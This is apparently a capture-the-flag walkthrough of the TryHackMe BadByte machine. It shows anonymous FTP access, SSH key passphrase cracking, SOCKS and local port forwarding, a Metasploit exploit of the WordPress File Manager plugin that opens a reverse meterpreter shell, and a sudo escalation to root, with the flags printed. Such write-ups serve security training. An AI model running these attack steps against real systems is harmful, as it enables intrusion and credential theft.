

# BadByte

## Initial Foothold

**Port Scanning**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ python3 /home/bc-here/CTF/pymap.py -t bad.thm --all >> ports.txt

[+] Port scanning...
22/tcp    open  ssh
30024/tcp open  unknown
[+] Enumerating open ports...

PORT      STATE SERVICE VERSION
30024/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.96.92
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          1743 Mar 23  2021 id_rsa
|_-rw-r--r--    1 ftp      ftp            78 Mar 23  2021 note.txt

```

**FTP anon Login**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ ftp bad.thm -p 30024
Connected to bad.thm.
220 (vsFTPd 3.0.3)
Name (bad.thm:bc-here): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22979|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          1743 Mar 23  2021 id_rsa
-rw-r--r--    1 ftp      ftp            78 Mar 23  2021 note.txt
226 Directory send OK.
ftp> mget *
229 Entering Extended Passive Mode (|||20607|)
150 Opening BINARY mode data connection for id_rsa (1743 bytes).
100% |*********************************************************|  1743        8.56 MiB/s    00:00 ETA
100% |*********************************************************|    78      187.15 KiB/s    00:00 ETA
226 Transfer complete.
```

- We got Two files `id_rsa` it will help us for ssh login and another one is `note.txt`

**Getting Clues**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ cat note.txt
I always forget my password. Just let me store an ssh key here.
- errorcauser

```
- Its seems like the `errorcauser` is related to the ssh login , ether its a username or a passphrase for login

**SSH login BruteForce**
```sh

┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ ssh2john id_rsa > ssh.hash

┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ sudo john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
[sudo] password for bc-here:
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cupcake          (id_rsa)
1g 0:00:00:00 DONE (2024-09-18 23:25) 25.00g/s 16000p/s 16000c/s 12800C/s evelyn..pebbles
Use the "--show" option to display all of the cracked passwords reliably
```
- Passphrase against `id_rsa` is `cupcake`

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ sudo ssh -i id_rsa errorcauser@bad.thm

-bash-4.4$ cat note.txt
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)
```

- This clue indicates that we need to do a `port-forwarding` and `ssh-tunneling` . 😁😁😁!

## Port Forwarding

**Dynamic Port Forwarding**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ sudo nano /etc/proxychains4.conf

#socks4         127.0.0.1 9050
socks5          127.0.0.1 1337
```
1. The hint was to use `socks5          127.0.0.1 1337` this port so we changed it from our machine
2. Now I will scan the internal ports of the target networks From my machine
```sh
ssh -D 1337 errorcursor@bad.thm
```
**Internal Port Scanning**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ proxychains nmap -sT 127.0.0.1

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

```
1. We found a http port internally.

**Local Port Forwarding**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ sudo ssh -i id_rsa -L 80:127.0.0.1:80 errorcauser@bad.thm
```
1. Nice now we can Use the internal http port on my machines localhost.



- This is a webpage!

**Checking For Wordpress**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ curl -s http://localhost/ | grep wordpress
                </nav></section><section id="recent-comments-2" class="widget widget_recent_comments"><h2 class="widget-title">Recent Comments</h2><nav role="navigation" aria-label="Recent Comments"><ul id="recentcomments"><li class="recentcomments"><span class="comment-author-link"><a href='https://wordpress.org/' rel='external nofollow ugc' class='url'>A WordPress Commenter</a></span> on <a href="http://localhost/?p=1#comment-1">Welcome to Badbyte</a></li></ul></nav></section>     </aside><!-- .widget-area -->
                                Proudly powered by <a href="https://en-gb.wordpress.org/">WordPress</a>.                      </div><!-- .powered-by -->
```
1. It seems like this is a wordpress site
2. Now lets try to enumerate vulnerable pluggins

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$  nmap -p 80 -vv --script http-wordpress-enum --script-args type="plugins",search-limit=1500 localhost >> vuln_plugin.txt


PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
| http-wordpress-enum:
| Search limited to top 1500 themes/plugins
|   plugins
|     duplicator 1.3.26
|_    wp-file-manager 6.0
```
3. We found two CVE's 
    1. `CVE-2020-11738`
    2. `CVE-2020-25213`

4. We will use the second one

**Metasploit getting Shell**
```sh

┌──(bc-here㉿BC-Here)-[~/CTF/THM/BadByte]
└─$ msfconsole -q
msf6 > search wp-file-manager

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  exploit/multi/http/wp_file_manager_rce  2020-09-09       normal  Yes    WordPress File Manager Unauthenticated Remote Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_file_manager_rce

msf6 exploit(multi/http/wp_file_manager_rce) > show options

Module options (exploit/multi/http/wp_file_manager_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND    upload           yes       elFinder commands used to exploit the vulnerability (Accept
                                         ed: upload, mkfile+put)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...
                                         ]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/us
                                         ing-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to WordPress installation
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress File Manager 6.0-6.8


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set LHOST 10.11.96.92
LHOST => 10.11.96.92
msf6 exploit(multi/http/wp_file_manager_rce) > run


[*] Started reverse TCP handler on 10.11.96.92:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:80 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/PT1vPp.php
[*] Sending stage (39927 bytes) to 10.10.112.139
[+] Deleted PT1vPp.php
[*] Meterpreter session 1 opened (10.11.96.92:4444 -> 10.10.112.139:34134) at 2024-09-19 00:12:31 +0600

meterpreter > ls
Listing: /usr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files
==========================================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  0     fil   2021-03-24 01:15:04 +0600  .gitkeep
040755/rwxr-xr-x  4096  dir   2021-03-24 01:15:04 +0600  .quarantine
040755/rwxr-xr-x  4096  dir   2021-03-24 01:15:04 +0600  .tmb
040755/rwxr-xr-x  4096  dir   2021-03-24 01:15:04 +0600  .trash

meterpreter > shell
Process 1677 created.
Channel 0 created.
python3 -c "import pty;pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

```
- `python3 -c "import pty;pty.spawn('/bin/bash')"` using this for getting shell. From `GTFOBINS`!

### user.txt
```sh
<ress/wp-content/plugins/wp-file-manager/lib/files$ cd /home
cd /home
cth@badbyte:/home$ ls
cls
cth  errorcauser
cth@badbyte:/home$cd cth
cd cth
cth@badbyte:/home/cth$ ls
ls
user.txt
cth@badbyte:/home/cth$ cat user.txt
cat user.txt
THM{227906201d17d9c45aa93d0122ea1af7}
```
### Getting Privilege
- `sudo -l` asking for password
```sh
 find / -type f -user cth -exec ls {} + 2>/dev/null
``` 
- This will try to find out things related to user

```sh
/var/log/bash.log
```
- This is in the last of the search. Lets Try it
```sh
cat /var/log/bash.log
cth@badbyte:~$ G00dP@$sw0rd2020
```
- This might be the old password for CTH
- Lets try `sudo -l`

```sh
<ress/wp-content/plugins/wp-file-manager/lib/files$ sudo -l
sudo -l
[sudo] password for cth: G00dP@$sw0rd2021

Matching Defaults entries for cth on badbyte:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
<ress/wp-content/plugins/wp-file-manager/lib/files$ sudo -s
sudo -s
<ress/wp-content/plugins/wp-file-manager/lib/files# whoami
whoami
root

<ress/wp-content/plugins/wp-file-manager/lib/files# cat /root/root.txt
cat /root/root.txt
  |      ______    ________   ________              ______        _____________ __________  |
  |     / ____ \  /  ___   \ /   ____ \            / ____ \      /____    ____//   ______/\ |
  |    / /___/_/ /  /__/   //   /   / /\          / /___/_/      \___/   /\___/   /______\/ |
  |   / _____ \ /  ____   //   /   / / /         / _____ \ __   ___ /   / /  /   ____/\     |
  |  / /____/ //  / __/  //   /___/ / /         / /____/ //  | /  //   / /  /   /____\/     |
  | /________//__/ / /__//_________/ /         /________/ |  \/  //___/ /  /   /________    |
  | \________\\__\/  \__\\_________\/          \________\  \    / \___\/  /____________/\   |
  |                                  _________           __/   / /        \____________\/   |
  |                                 /________/\         /_____/ /                           |
  |                                 \________\/         \_____\/                            |

THM{ad485b44f63393b6a9225974909da5fa}
```

